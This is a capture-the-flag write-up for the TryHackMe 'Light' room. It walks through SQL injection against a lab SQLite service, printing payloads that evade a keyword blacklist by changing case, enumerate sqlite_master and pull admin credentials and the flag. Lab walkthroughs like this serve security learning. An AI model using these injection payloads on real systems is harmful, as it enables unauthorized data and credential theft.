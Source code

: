 ```yaml
---
title: Light - TryHackMe
date: 2025-01-19
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="Light"
    roomIcon="/ctf/tryhackme/light/icon-room.png"
    roomLink="https://tryhackme.com/r/room/lightroom"
    roomLevel="EASY"
    roomTechnology="Linux"
/>

## Challenge Information

> *I am working on a database application called Light! Would you like to try it out? If so, the application is running
on `port 1337`. You can connect to it using `nc 10.10.226.23 1337`. You can use the username `smokey` to get started.*

## Challenge Overview

This challenge presents a database application accessible via a Netcat connection. After connecting to
`nc 10.10.226.23 1337`, we are prompted to enter a username. Using the provided username `smokey`, we successfully
authenticate with the following credentials:

```bash
> nc 10.10.226.23 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

The objective is to extract the `admin` username, its password, and the flag.

## Enumeration

### Initial Observations

Upon logging in, the application accepts SQL-like queries to interact with the database. However, we quickly discover
that key SQL keywords such as `UNION`, `SELECT`, `union`, and `select` are blacklisted, as shown below:

```sql
' UNION SELECT name FROM sqlite_master WHERE type='table
```

```bash
Ahh there is a word in there I don't like :(
```

This limitation requires us to craft payloads with alternate casing or spacing to bypass the blacklist.

### Bypassing the Blacklist

We successfully bypass the blacklist by altering the case or spacing of the blocked keywords:

```sql
' Union Select name FROM sqlite_master WHERE type='table
```

This payload reveals the presence of a table:

```bash
admintable
```

### Extracting Table Schema

Next, we query the `sqlite_master` table to retrieve the SQL definition of the `admintable`:

```sql
' Union Select sql FROM sqlite_master WHERE name='admintable
```

Output:

```sql
CREATE TABLE admintable
(
    id       INTEGER PRIMARY KEY,
    username TEXT,
    password INTEGER -- The password field is incorrectly labeled as an integer but contains string data. For example, the password for the user `smokey` is 'vYQ5ngPpw8AdUmL'.
)
```

### Extracting the Admin Credentials

#### Admin Username

To retrieve the admin username, we use the following payload:

```sql
' Union Select username FROM admintable WHERE username LIKE '%
```

Output:

```bash
TryHackMeAdmin
```

#### Admin Password

To obtain the admin password, we query the `admintable` with a specific condition:

```sql
' Union Select password FROM admintable WHERE username='TryHackMeAdmin
```

Output:

```bash
[REDACTED]
```

## Retrieving the Flag

Finally, we extract the flag using a query that avoids the admin-specific condition:

```sql
' Union Select password FROM admintable WHERE username != 'TryHackMeAdmin
```

Output:

```bash
[REDACTED]
```

## Reference

- [The Schema Table](https://www.sqlite.org/schematab.html)